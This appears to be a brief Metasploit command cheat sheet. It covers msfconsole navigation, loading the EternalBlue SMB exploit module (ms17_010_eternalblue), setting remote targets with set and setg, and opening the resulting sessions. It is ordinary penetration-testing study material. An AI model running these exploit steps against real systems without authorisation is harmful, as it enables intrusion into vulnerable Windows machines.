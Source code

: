 msfconsole
ls 
ping -c 5 8.8.8.8
clear
history
back
`use exploit/windows/smb/ms17_010_eternalblue`
show options
show payloads
info
search ms17-010
search type:auxiliary ms17-010
set rhosts [remote_ip]
unset all - remove previously set rhost
You can use the `setg` command to set values that will be used for all modules. The `setg` command is used like the set command. The difference is that if you use the `set` command to set a value using a module and you switch to another module, you will need to set the value again. The `setg` command allows you to set the value so it can be used by default across different modules. You can clear any value set with `setg` using `unsetg`.
setg rhost [remote_ip]
unsetg all
After setting up rhosts, lport, etc. Run sessions
sessions -i 1 or 2 (whichever session we want to use)